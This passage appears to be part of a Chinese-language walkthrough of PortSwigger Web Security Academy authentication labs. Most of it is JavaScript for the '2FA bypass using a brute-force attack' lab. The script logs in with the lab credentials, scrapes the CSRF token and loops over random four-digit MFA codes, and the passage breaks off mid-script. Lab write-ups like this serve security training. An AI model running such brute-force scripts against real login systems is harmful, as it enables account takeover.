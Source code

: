 ```js
async function main() {
  for (const code of codes) {
    const response = await login(code);
    if (response.redirected) return;
  }
}
```

成功在 1630 停下

## Lab: 2FA bypass using a brute-force attack

| Dimension | Description                                                                                                |
| --------- | ---------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/authentication/multi-factor#brute-forcing-2fa-verification-codes      |
| Lab       | https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-bypass-using-a-brute-force-attack |

這題有點麻煩，有 csrf token + 驗證碼輸入錯誤 2 次就要重新登入

```js
const codes = Array(10000)
  .fill(0)
  .map((zero, idx) => String(idx).padStart(4, "0"));
function login(csrf) {
  return fetch(`${location.origin}/login`, {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: `csrf=${csrf}&username=carlos&password=montoya`,
    method: "POST",
    mode: "cors",
    credentials: "include",
  });
}
function login2(code, csrf) {
  return fetch(`${location.origin}/login2`, {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: `mfa-code=${code}&csrf=${csrf}`,
    method: "POST",
    mode: "cors",
    credentials: "include",
  });
}
function getRandomNumber() {
  return Math.floor(Math.random() * 10000);
}
async function main() {
  let csrf = document.querySelector("[name='csrf']").value;
  let round = 0;
  while (true) {
    round += 1;
    const response1 = await login(csrf);
    const html1 = await response1.text();
    csrf = html1
      .split(`<input required type="hidden" name="csrf" value="`)[1]
      .split(`">`)[0];

    for (let i = 0; i <= 1; i++) {
      const idx = getRandomNumber();
      const code = codes[idx];
      const response2 = await login2(code, csrf);
```